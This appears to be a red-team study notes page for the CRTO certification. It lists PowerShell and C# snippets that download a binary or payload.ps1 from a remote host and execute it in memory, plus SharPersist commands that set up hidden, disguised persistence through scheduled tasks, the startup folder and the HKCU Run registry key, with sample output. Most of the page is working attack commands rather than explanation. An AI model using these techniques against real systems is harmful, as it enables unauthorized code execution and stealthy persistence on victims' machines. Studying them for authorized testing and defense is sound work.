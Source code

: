 ```yaml
---
title: CRTO Notes
author: 00x71
date: 2021-08-04 21:00:00 0000
categories: [RED_TEAM, CRTO]
tags: [C# CRTO REDTEAMING]
---
```


```csharp
[system.reflection.assembly]::LoadFile("file")
 [namespace.class]::Main()
```

Binary reflective loading

```csharp
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/binary.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[binary.Program]::Main("".Split())
```



Presistance 

-Task Scheduler

Using SharpPresist

```powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.10.10/payload.ps1"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
The above snippet will produce a Base64 string which will be supplied in the snippet below:
```powershell
.\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc BASE64 ENCODED STRING HERE" -n "Updater" -m add -o hourly
```


   -t --> the desired persistence technique.<br />
   -c --> command to execute.<br />
   -a --> any arguments for that command.<br />
   -n --> the name of the task.<br />
   -m --> to add the task (you can also remove, check and list).<br />
   -o --> the task frequency.<br />
   
 -Startup Folder
 
 ```powershell
 .\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc BASE64_HERE" -f "UserEnvSetup" -m add
 ```
 
   -f --> the filename to save as.


-Registry AutoRun

```powershell
./SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

Output:
[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```


   -k --> the registry key to modify.<br />
   -v --> the name of the registry key to create.<br />

